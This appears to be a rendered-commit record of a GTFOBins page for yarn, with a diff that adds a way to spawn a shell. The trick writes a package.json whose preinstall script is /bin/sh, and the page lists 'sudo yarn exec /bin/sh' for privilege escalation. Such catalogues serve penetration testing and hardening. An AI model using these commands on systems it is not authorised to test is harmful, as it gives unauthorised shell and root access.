

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/yarn.md, in a window 1280 px wide. Shown: the top 613 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update yarn and npm

```diff
--- a/_gtfobins/yarn.md
+++ b/_gtfobins/yarn.md
@@ -2,6 +2,10 @@
 functions:
   shell:
     - code: yarn exec /bin/sh
+    - code: |
+        TF=$(mktemp -d)
+        echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
+        yarn --cwd $TF install
   sudo:
     - code: sudo yarn exec /bin/sh
 ---
```
Also changed, not shown: _gtfobins/npm.md (+1 -0 lines).
